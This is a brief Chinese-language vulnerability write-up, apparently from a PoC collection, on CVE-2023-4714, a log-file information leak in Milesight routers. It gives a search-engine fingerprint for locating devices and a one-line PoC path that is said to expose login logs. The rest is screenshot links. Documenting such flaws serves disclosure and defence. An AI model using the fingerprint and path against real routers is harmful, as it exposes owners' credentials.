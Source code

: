 # Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router 存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

Milesight Router

## 网络测绘

```
"rt_title"
```

## 漏洞复现

登陆页面

![image-20231116142232135](images/image-20231116142232135.png)

poc

```
/lang/log/httpd.log
```

![image-20231116142246862](images/image-20231116142246862.png)